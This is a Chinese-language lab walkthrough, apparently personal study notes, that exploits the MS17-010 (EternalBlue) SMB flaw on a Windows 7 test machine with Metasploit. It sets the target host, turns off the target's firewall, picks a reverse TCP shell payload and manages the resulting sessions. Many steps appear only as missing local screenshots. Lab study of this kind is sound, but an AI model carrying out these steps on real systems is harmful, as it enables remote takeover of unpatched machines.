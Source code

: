 # MS17-010 漏洞
## 使用Metaslpoit
**主要利用445端口的漏洞**
**首先开启一台win7作为目标靶机**

#### 1.查找漏洞模块

`search MS17-010`
查找MS17-010漏洞

![search MS17-010](C:\Users\kkk\Pictures\Typora_poto\MS17-010\1.png)

#### 2.使用anxiliary模块的scanner

`use 3`
使用anxiliary模块的scanner扫描目标是否存在MS17-010漏洞

#### 3.查看模块相关参数

`show options`
其中required为yes的为必要的参数

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\2.png)

#### 4.设置目标主机

`set rhost 192.168.17.132`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\3.png)

#### 5.再次查看相关参数

`show options`
发现RHOSTS参数已经设定完成

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\4.png)

#### 6.运行

`run`
第一次扫描发现目标主机并未存在可利用的该漏洞

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\5.png)

#### 7.查看目标win7，检查端口和防火墙，发现防火墙未关闭

关闭防火墙

<img src="C:\Users\kkk\Pictures\Typora_poto\MS17-010\6.png" style="zoom: 50%;" />

#### 8.退出扫描模块

`back`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\7.png)

#### 9.再次搜索模块并使用永恒之蓝模块
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\8.png)

#### 10.设定目标主机
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\9_1.png) 
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\9_2.png) 

#### PS: 查看可利用该漏洞的系统
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\ps.png)

#### 11.使用该漏洞相关payload模块中的 windows/x64/shell/reverse_tcp
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\10_1.png)
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\10_2.png)

#### 12.检查并运行
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\11_1.png)
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\11_2.png)

#### 13.运行成功，拿到shell
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\12_1.png)
![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\12_2.png)



***



### 后续处理
#### lunux与window不同，出现乱码解决

`chcp 65001`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\13.png)

#### 将会话保存到后台

`exploit -j`

#### 查看会话

`sessions`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\14.png)

#### 连接此会话

`sessions -i 2`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\15.png)

#### 退出该会话但保留会话状态

`background`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\16.png)

#### 关闭会话

`sessions -k 2`

![](C:\Users\kkk\Pictures\Typora_poto\MS17-010\17.png)